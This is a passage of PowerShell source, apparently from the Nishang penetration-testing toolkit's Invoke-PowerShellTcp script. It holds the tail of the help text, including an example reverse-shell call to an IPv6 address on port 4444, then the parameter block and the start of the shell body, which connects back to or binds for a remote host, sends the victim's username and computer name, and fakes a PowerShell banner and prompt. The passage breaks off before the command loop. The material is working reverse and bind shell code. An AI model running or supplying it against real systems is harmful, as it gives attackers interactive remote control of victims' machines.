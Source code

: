 ```powershell
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)
```
